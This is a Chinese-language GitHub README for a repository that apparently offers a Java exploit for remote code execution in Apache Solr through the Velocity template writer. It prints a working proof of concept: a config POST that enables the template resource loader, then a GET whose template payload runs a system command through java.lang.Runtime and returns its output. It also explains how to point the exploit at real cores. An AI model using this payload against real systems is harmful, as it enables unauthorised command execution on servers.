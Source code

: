 # Apache_Solr_RCE_via_Velocity
最近Apache Solr爆出了一个RCE 0day漏洞，利用前提是存在未授权访问。原作者给出的POC如下：
```
Apache Solr RCE via Velocity template

Set "params.resource.loader.enabled" as true.

Request:
========================================================================
POST /solr/test/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
========================================================================


RCE via velocity template
Request:
========================================================================
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: localhost:8983
========================================================================


Response:
========================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 56

     0  uid=8983(solr) gid=8983(solr) groups=8983(solr)
========================================================================
```
实际环境中将test替换为Core Admin中得到的应用路径：  
![](https://github.com/TU-SJ/Apache_Solr_RCE_via_Velocity/blob/master/11-8-1.png)   
本项目是根据POC写出的java利用脚本：    
![](https://github.com/TU-SJ/Apache_Solr_RCE_via_Velocity/blob/master/11-8-2.png)   
先进行配置检测，然后再执行命令
